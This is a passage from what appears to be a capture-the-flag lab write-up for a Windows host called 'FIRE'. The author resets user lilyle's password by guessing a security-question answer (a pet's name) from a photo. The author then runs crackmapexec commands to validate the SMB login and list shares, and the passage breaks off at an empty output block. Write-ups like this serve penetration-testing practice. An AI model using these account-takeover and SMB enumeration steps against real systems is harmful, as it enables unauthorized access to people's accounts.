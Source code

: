 In the second pic we can se the employee lilyle with his pet sparky, and the reset form ask us for a secuity answer what is Pet Name... that's perfect!!<br>
So we just need to input the username lilyle and chose pet name as security answer as Sparky as the foto url says.

# Lilyle

	
![reset password](./pic/reset-pass.png)
	
![new-pass](./pic/reset-pass2.png)
	
now we have the password for an user so we can test it in smb:
```bash
crackmapexec smb 10.10.254.167 -u lilyle -p [REDACTED] 
```
output:
```bash
SMB         10.10.254.167   445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB         10.10.254.167   445    FIRE             [+] windcorp.thm\lilyle:[REDACTED] 
```
We have a successful login, that means we can login in smb with this user.<br>
We can't have a shell because lilyle is not in the `Remote Management Users`.<br>
So i started enumerating the smb:
```bash
crackmapexec smb 10.10.254.167 -u lilyle -p [REDACTED] --shares
```
output:
```bash
```